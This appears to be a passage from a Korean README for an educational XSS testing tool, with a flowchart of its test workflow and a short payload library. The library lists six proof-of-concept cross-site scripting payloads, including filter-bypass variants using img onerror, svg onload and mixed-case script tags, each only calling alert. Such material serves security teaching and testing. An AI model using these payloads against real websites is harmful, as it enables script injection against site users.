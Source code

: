 ### 📊 **테스트 기능**

```mermaid
flowchart LR
    A[사용자 페이로드 입력] --> B{언어 선택}
    B --> C[🚀 테스트 시작]
    C --> D[실시간 진행 상황]
    D --> E[공격 흐름도 표시]
    E --> F[코드 비교 분석]
    F --> G[개별 실행 버튼]
    G --> H[실시간 결과 표시]

    style A fill:#e3f2fd
    style C fill:#ffebee
    style E fill:#e8f5e8
    style G fill:#fff3e0
    style H fill:#f3e5f5
```

## 🧪 XSS 페이로드 라이브러리

### 🚀 **기본 테스트**
```html
<script>alert("XSS")</script>
```

### 🖼️ **이미지 태그 우회**
```html
<img src=x onerror=alert("XSS")>
```

### 🎨 **SVG 벡터**
```html
<svg onload=alert("XSS")>
```

### 👆 **이벤트 핸들러**
```html
" onmouseover="alert('XSS')" "
```

### 🔤 **대소문자 우회**
```html
<ScRiPt>alert("XSS")</ScRiPt>
```

### 🖥️ **iframe 스크립트**
```html
<iframe src="javascript:alert('XSS')">
```

## 🎓 교육적 특징
